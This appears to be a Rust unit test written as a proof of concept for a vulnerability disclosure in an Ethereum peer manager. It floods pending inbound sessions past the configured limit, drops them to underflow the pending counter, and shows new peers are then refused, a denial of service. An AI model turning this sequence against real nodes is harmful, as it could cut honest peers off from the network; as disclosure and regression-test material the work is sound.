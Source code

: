 ```rust

    // saturate the pending slots with untrusted peers
    // Based on my interpretation of the desired behavior, pending sessions should be accepted up
    // to the max_inbound limit, as we are still waiting for the trusted peer
    for i in 0..peers.connection_info.config.max_inbound {
        let socket_addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, (i + 10) as u8)), 8008);
        assert!(peers.on_incoming_pending_session(socket_addr.ip()).is_ok());
        pending_addrs.push(socket_addr);
    }

    // try to connect more untrusted peers: this is where pending connection flooding is possible,
    // because any number of connections can be made here without getting any rejections
    for i in 0..4 {
        let socket_addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, (i + 20) as u8)), 8008);
        // TODO: a correct unit test should assert that these are rejected, since the pending limit
        // should be reached by now
        // However, we will not make this assertion now in order to demonstrate the full exploit
        peers.on_incoming_pending_session(socket_addr.ip()).unwrap();

        pending_addrs.push(socket_addr);
    }

    let err = PendingSessionHandshakeError::Eth(EthStreamError::P2PStreamError(
        P2PStreamError::HandshakeError(P2PHandshakeError::Disconnected(
            DisconnectReason::UselessPeer,
        )),
    ));

    // Remove ALL pending peers
    // For a debug build this will panic due to subtraction overflow
    for pending_addr in pending_addrs {
        peers.on_incoming_pending_session_dropped(pending_addr, &err);
    }
    
    // For a release build we will now have an overflown num_pending_in
    // TODO: a correct unit test should assert this is zero, but we will proceed
    // to demonstrate the full exploit
    println!("num_pending_in: {}", peers.connection_info.num_pending_in);

    println!("num_inbound: {}, has_in_capacity: {}", peers.connection_info.num_inbound, peers.connection_info.has_in_capacity());

    // Now we disconnect one of the established sessions, so a pending session
    // *should* be able to connect. However, the overflow will instead lead to a DoS
    // because num_pending_in is far too large

    peers.on_active_session_gracefully_closed(connected_peer_ids[0]);

    println!("num_inbound: {}, has_in_capacity: {}", peers.connection_info.num_inbound, peers.connection_info.has_in_capacity());

    let socket_addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, 99)), 8008);
    // This assertion would not fail if things were working correctly
    assert!(peers.on_incoming_pending_session(socket_addr.ip()).is_ok());
}
```
